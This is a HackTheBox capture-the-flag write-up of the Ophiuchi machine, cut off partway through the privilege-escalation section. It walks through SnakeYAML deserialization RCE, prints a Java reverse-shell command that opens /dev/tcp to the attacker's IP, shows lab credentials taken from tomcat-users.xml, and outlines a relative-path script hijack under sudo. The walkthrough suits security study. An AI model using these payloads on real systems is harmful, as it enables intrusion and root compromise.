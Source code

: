 ```yaml
---
layout: post
title: HackTheBox Ophiuchi Write-up
---
```


<h2>Overview</h2>

Ophiuchi is a Medium-rated Hackthebox linux machine. I gain a foothold via yaml deserialization on a website's user input, allowing RCE and leading to a shell as the user tomcat. From there, exposed credentials allow a quick escalation to the user "admin". As admin, I discover I'm able to run a go script as superuser. The file loads scripts without specifying full filepaths, allowing script hijacking and command execution as root.

<h2>Initial Enumeration</h2>

Initial nmap enumeration reveals two ports open: SSH on port 22, and Apache Tomcat site on port 8080.

![image](https://user-images.githubusercontent.com/44827973/141241262-3409fed4-2bc0-47ef-9096-64f8af05ef93.png)

Heading over to port 8080 on a browser reveals an "Online YAML Parser":

![image](https://user-images.githubusercontent.com/44827973/141241523-217abe00-67cf-48a1-8c6f-5e6e8fa2ca59.png)

Testing some gibberish input and clicking parse, I get redirected to this security message:

![image](https://user-images.githubusercontent.com/44827973/141241584-ed9f2860-720c-4a9d-bca7-ee306f6a4d64.png)

Looking to find more clues, I look up the meaning of this unfamiliar word "Ophiuchi".

![image](https://user-images.githubusercontent.com/44827973/141242196-d6436a15-b45a-4b87-b2cb-1884505d54e5.png)

Conveniently, the first link shown when I search for "yaml exploit" returns a "SnakeYAML deserialization" blog entry. This could be the name of the box hinting at the entrypoint.

![image](https://user-images.githubusercontent.com/44827973/141242358-9499465e-9c78-4bc2-a36b-c0ce616d1cff.png)

<h2>Exploiting SnakeYAML -> RCE</h2>

The blog author details a vulnerability in snakeyaml where, if user input is directly passed to a function, the application can be vulnerable to deserialization leading to RCE.
First on my local host I open an HTTP server, and then on the target website I test the payload provided by the blog.

![image](https://user-images.githubusercontent.com/44827973/141243558-c3d44771-864f-41d6-9e2e-8d4896256bec.png)
![image](https://user-images.githubusercontent.com/44827973/141243557-b5df5fcc-eed0-49bd-a661-e241da4b1e58.png)

The web server attempts to make contact with my host. Looks like the security message is either a trick or not up to date, as I can clearly get some form of execution going.

As explained by the blog, snake yaml can interpret Java class constructors in the yaml payload. Upon parsing the provided payload, snake YAML invokes ScriptEngineManager which as we can see attempted to access the "/META-INF/services/javax.script.ScriptEngineFactory" endpoint.

An exploit for this is provided in this github repo:
https://github.com/artsploit/yaml-payload

Upon parsing our yaml payload, the web server will look for the file "/META-INF/services/javax.script.ScriptEngineFactory" and read its contents. It will then attempt to execute the class file pointed to by this file. This exploit aims to abuse this by creation of a Java class file containing arbitrary commands which will force the web server to execute.

I created a folder tree similar to the exploit, in order for the server to locate the header file "javax.script.ScriptEngineFactory" and the class file containing the code I want executed. This is how it ends up looking:

![image](https://user-images.githubusercontent.com/44827973/141244440-6ec163f4-93c3-4d29-aefd-1128d5a6cf6b.png)

Within the javax.script.ScriptEngineFactory file, I specify the package and class I want executed, which will be my exploit.class within my snakeyaml directory:
`snakeyaml.exploit`

I copied the repo's .java file inside my package directory "snakeyaml", and make a modification of the comand to get a reverse shell. Note how I rename the package and class - Java classes need to be the same name as the filename.

![image](https://user-images.githubusercontent.com/44827973/141244687-06921bf0-9a95-4555-b60a-77fd952824ec.png)

Here is the reverse shell command I use:

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.6/443;cat <&5 | while read line; do $line 2>&5 >&5; done"});
```

After modifying, I compile it with "javac exploit.java".

I start a reverse shell listener with netcat.
When I execute my yaml payload again on the website, I get a hit on my HTTP server with response 200 (meaning OK - there were no errors in retrieving the files). I get a reverse shell as "tomcat".

![image](https://user-images.githubusercontent.com/44827973/141245175-f9ae8a04-98c7-4c1e-8cb3-a12dd562560a.png)
![image](https://user-images.githubusercontent.com/44827973/141245182-168a32f8-a457-40eb-bdd6-0887d379aa24.png)

<h2>tomcat -> admin</h2>

The first thing I do with a shell is to upgrade it to an interactive shell. I check if python or python3 is installed, and then run a python command to get an interactive shell.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

For whatever reason, I kept getting EOL errors, so I spawned another shell on top and then ran the command without issues.

![image](https://user-images.githubusercontent.com/44827973/141444329-a0c66b06-80b1-42df-bd3d-4852dac9ec10.png)

Seeing as Apache Tomcat is installed on the machine, it's worth checking the tomcat-users file for credentials. I'm fortunate enough to find credentials for "admin".

The tomcat-users.xml file was found in /opt/tomcat/conf/tomcat-users.xml.

![image](https://user-images.githubusercontent.com/44827973/141444646-c7a13d92-7741-4162-bc57-4ea102b648fd.png)

The credentials found:
`admin:whythereisalimit`

I am able to use these creds to switch to admin user:

![image](https://user-images.githubusercontent.com/44827973/141444760-749aaa78-a94f-4bc3-b65a-10f690e2b446.png)

Now I am able to read user.txt:

![image](https://user-images.githubusercontent.com/44827973/141444778-97979345-7978-4bca-99ba-cd27b593b3e6.png)

<h2>admin -> root</h2>

"sudo -l" reveals one command I can run as root:

![image](https://user-images.githubusercontent.com/44827973/141444962-f00d087a-1957-483e-a7fc-c4fea04ba7d9.png)

It reveals I can run a go file as root. Although it might seem secure, as it only permits us to run this one file as root, we will soon find out.

Although I can't write to the target .go file, I can read it.

![image](https://user-images.githubusercontent.com/44827973/141445056-e35672a0-6335-461f-9414-8e52c6bb0c1a.png)

Here are it's contents.

![image](https://user-images.githubusercontent.com/44827973/141448208-677811c2-9208-4cf4-86ed-c758ddd77fc8.png)

I can see it references two files. The script appears to do the following:

1. read from "main.wasm"
2. check for what main.wasm returns
3. if it returns anything other than 1, "Not ready to deploy" is printed, and execution ends here.
4. if it reads 1, it prints "Ready to deploy", and executes "deploy.sh"

I check what privileges I have on main.wasm and deploy.sh files:

![image](https://user-images.githubusercontent.com/44827973/141447909-89eaef5b-8a5d-42c1-b174-2145653cf592.png)

I'm unable to write to either of these files. If I could simply replace deploy.sh and pass the check in step 2 I could have anything I want executed, but I can't. How else could I exploit this script's behaviour?

<h2>Script Hijacking</h2>

A common vulnerability arises when scripts that are executed without their full filepath specified. As you can see in index.go, the script handles two file inputs which do not have full filepath specified:

1. "main.wasm", which appears to be read by the script, and
2. "deploy.sh", which is executed by the script.

They developer who wrote this script obviously intended for these files to be read from the same directory containing index.go. but if I were to run index.go from another location, it would look inside that location for these files. If I create my own main.wasm and deploy.sh in a directory I have write permissions, and execute the sudo command from that location, I could "hijack" index.go with my own scripts.




